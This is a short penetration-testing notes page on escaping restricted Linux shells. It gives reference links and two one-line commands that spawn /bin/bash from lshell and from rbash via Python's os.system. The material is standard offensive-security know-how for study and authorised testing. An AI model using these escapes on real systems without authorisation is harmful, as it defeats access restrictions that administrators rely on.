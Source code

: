 ```yaml
---
description: Ways to escape limited shells.
---
```


# Limited Shell Escape

[https://www.aldeid.com/wiki/Lshell\
https://vk9-sec.com/linux-restricted-shell-bypass/\
https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf](https://www.aldeid.com/wiki/Lshellhttps://vk9-sec.com/linux-restricted-shell-bypass/https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)

### lshell

```
$ echo os.system('/bin/bash')
```

### rbash

```
python
>>import os;
>>os.system("/bin/bash");
```
